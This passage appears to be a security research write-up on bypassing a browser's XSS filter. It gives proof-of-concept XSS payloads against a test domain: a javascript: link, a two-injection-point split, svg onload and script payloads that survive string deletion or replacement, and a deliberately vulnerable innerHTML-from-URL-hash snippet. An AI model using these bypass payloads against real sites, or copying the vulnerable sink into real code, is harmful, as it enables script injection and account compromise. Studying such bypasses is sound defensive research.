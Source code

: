 ```
<a href="javascript:alert(1)">Link</a>
```

### If you have 2 or more injection points

(It seems to be able to block a considerable number of cases that occur with two or more, but since the case reported in the past ( [#96616 ](https://bugs.chromium.org/p/chromium/issues/detail?id=96616)[#403636](https://bugs.chromium.org/p/chromium/issues/detail?id=403636) ) was WontFixed, it is classified as the one that is not targeted for blocking.)

[https://vulnerabledoma.in/bypass/text?type=2&q=%60-alert(1)%3C/script%3E%3Cscript%3E%60](https://vulnerabledoma.in/bypass/text?type=2&q=`-alert(1)`)

```
<div>`-alert(1)</script><script>`</div>
<div>`-alert(1)</script><script>`</div>
```

### If you have string operations

When some strings are removed or replaced, intervening strings do not block.

#### When deleted

[https://vulnerabledoma.in/bypass/text?type=6&q=%3Csvg%20o%3Cscript%3Enload=alert(1)%3E](https://vulnerabledoma.in/bypass/text?type=6&q=nload=alert(1)>)

```
<svg o<script>nload=alert(1)>
↓
<svg onload=alert(1)>
```

#### When replaced

[https://vulnerabledoma.in/bypass/text?type=7&q=%3Cscript%3E/%26/-alert(1)%3C/script%3E](https://vulnerabledoma.in/bypass/text?type=7&q=/%26/-alert(1))

```
<script>/&/-alert(1)</script>
↓
<script>/&amp;/-alert(1)</script>
```

### `document.write()`DOM based XSS other than request string

[https://vulnerabledoma.in/bypass/dom_innerhtml#%3Cimg%20src=x%20onerror=alert(1)%3E](https://vulnerabledoma.in/bypass/dom_innerhtml#)

```
<body>
<script>
hash=location.hash.slice(1);
document.body.innerHTML=decodeURIComponent(hash);
</script>
</body>
```
